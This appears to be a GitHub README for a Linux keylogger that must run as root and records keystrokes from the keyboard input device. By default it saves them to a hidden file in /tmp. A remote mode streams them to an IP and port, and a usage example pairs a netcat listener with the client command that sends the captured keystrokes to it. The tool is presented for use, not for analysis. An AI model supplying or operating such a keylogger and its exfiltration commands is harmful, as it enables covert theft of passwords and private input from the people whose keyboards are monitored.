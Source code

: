 # Simple_Local&Remote_Keylogger

Simple keylogger that runs on Linux.<br>
It must be run as root.

__________________________________________________________________________
Usage: #./slrk [OPTIONS]<br>
<br>
OPTIONS:<br>
	-d: input device (if not specified, the default device is '/dev/input/by-path/***kbd')<br>
	-o: output file. (It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt')<br>
	-m remote -a \<IP-ADDR\> -p \<PORT\>: it sends all the keystrokes on the remote server located at \<IP-ADDR:PORT\><br>
<br>
EXAMPLE<br>
Server$ nc lvp 8888 > logger.txt<br><br>
Client#./slrk -m remote -a 127.0.0.1 -p 8888<br>
__________________________________________________________________________
<br>(Keys are mapped on English keyboard)
